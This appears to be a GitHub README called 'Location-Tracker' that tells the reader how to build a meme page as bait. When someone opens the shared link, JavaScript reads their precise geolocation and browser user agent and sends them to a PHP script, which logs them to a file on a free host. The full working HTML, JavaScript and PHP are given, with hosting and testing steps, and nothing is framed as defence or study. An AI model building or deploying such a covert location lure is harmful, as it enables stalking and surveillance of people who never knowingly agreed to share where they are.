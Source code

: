 # Location-Tracker

This Method is used to Get the Location of the person exactly By using simple Html code.
Step 1: Create the HTML File

Open a text editor or code editor on your local machine.
Create a new HTML file and save it as locate.html.
Step 2: Add the Meme(random pic link) and JavaScript Code

Inside locate.html, add an <iframe> tag to display the meme:
Now when a user opens the link he will see that pic

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Meme Page</title>
</head>
<body>
    <iframe src="URL_TO_YOUR_MEME_IMAGE" frameborder="0"></iframe>
</body>
</html>

Add JavaScript code to collect user location, user agent, and IP address. This can be done using the navigator object and making a request to an external PHP file for data collection.

<script>
    // Function to send data to the PHP file
    function sendData(location, userAgent, ipAddress) {
        const xhr = new XMLHttpRequest();
        xhr.open("GET", `store.php?location=${location}&userAgent=${userAgent}&ipAddress=${ipAddress}`, true);
        xhr.send();
    }

    // Get user location using the Geolocation API
    navigator.geolocation.getCurrentPosition((position) => {
        const latitude = position.coords.latitude;
        const longitude = position.coords.longitude;
        const location = `Latitude: ${latitude}, Longitude: ${longitude}`;
        
        // Get user agent and IP address
        const userAgent = navigator.userAgent;
        
        // Send data to the PHP file
        sendData(location, userAgent, '');
    });
</script>

Step 3: Create the PHP File

Create a new file named store.php in the same directory as locate.html.

In store.php, you can collect the data sent from the JavaScript and store it in a file or database. For example:

<?php
if (isset($_GET['location']) && isset($_GET['userAgent'])) {
    $location = $_GET['location'];
    $userAgent = $_GET['userAgent'];
    
    // Store the data in a file (e.g., data.txt)
    $data = "Location: $location\nUser Agent: $userAgent\n";
    file_put_contents('data.txt', $data, FILE_APPEND);
}
?>

Step 4: Host the Files on 000webhost.com

Sign in to your 000webhost.com account.

Upload both locate.html and store.php to your hosting account using FTP or the web-based file manager provided by your hosting service.

Once the files are uploaded, you can access locate.html through a web browser using the hosted URL (e.g., https://yourwebsite.000webhostapp.com/locate.html).

Step 5: Testing

Open locate.html in your browser both locally (from your laptop) and through the hosted URL.

You should see the meme displayed, and the JavaScript code will collect and send data to store.php for both versions.

Check the data.txt file (or your chosen storage method) on your hosting account to verify that the data is being stored correctly.
